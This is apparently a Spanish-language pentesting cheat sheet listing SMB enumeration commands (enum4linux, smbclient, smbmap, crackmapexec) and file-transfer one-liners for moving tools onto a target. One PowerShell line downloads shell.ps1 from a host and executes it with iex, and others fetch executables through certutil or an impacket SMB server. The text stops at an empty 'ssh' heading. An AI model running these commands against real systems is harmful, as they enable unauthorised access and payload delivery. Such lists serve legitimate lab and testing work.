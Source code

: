# Archivos compartidos a nivel de red
| **Comando**   | 
| --------------|
|**enum4linux**|
|`enum4linux -n 10.10.10.10`|
|`enum4linux 10.10.10.10`|
|**smbclient**|
|`smbclient -L WORKGROUP -I 10.10.10.10 -N -U ""`|
|`smbclient \\\\10.10.10.10\\c$ -U "user" -P "password"`|
|**smbmap**|
|`smbmap -H 10.10.10.10`|
|`smbmap -H 10.10.10.10 -u "user" -p "password"`|
|`smbmap -N -L -H 10.10.10.10`|
|**Crackmapexec**|
|`crackmapexec smb 10.10.10.10 -p 'user' -p 'user'`|
|`crackmapexec winrm 10.10.10.10 -p 'user' -p 'user'`|

# Transferir archivos

| **Comandos**   | 
| --------------|
|**Certutil**|
|`certutil -urlcache -f http://10.10.10.10/test.exe test.exe`|
|`certutil -urlcache -split -f http://10.10.10.10/test.exe test.exe`|
|**powershell**|
|`python3 -m http.server 8080`|
|`powershell -c iex(new-object net.webclient).downloadstring('http://10.10.10.10:8080/shell.ps1')")`|
|`powershell.exe wget http://10.10.10.10/test.exe -OutFile test.exe`|
|`powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/test.exe', 'test.exe')`|
|**smb**|
|**Servidor**|
|`impacket-smbserver smbFolder $(pwd) -smb2support`|
|`impacket-smbserver smbFolder /root/Downloads/test -smb2support`|
|`sudo impacket-smbserver smbFolder $(pwd) -smb2support -user s3v3n -p s3v3n`|
|**Descargar**|
|`copy \\192.168.1.2\smbFolder\test.exe`|
|`net use \\10.10.10.10\smbFolder`|
|`copy \\10.10.10.10\smbFolder\test.exe /u:s3v3n s3v3n`|
|**ssh**|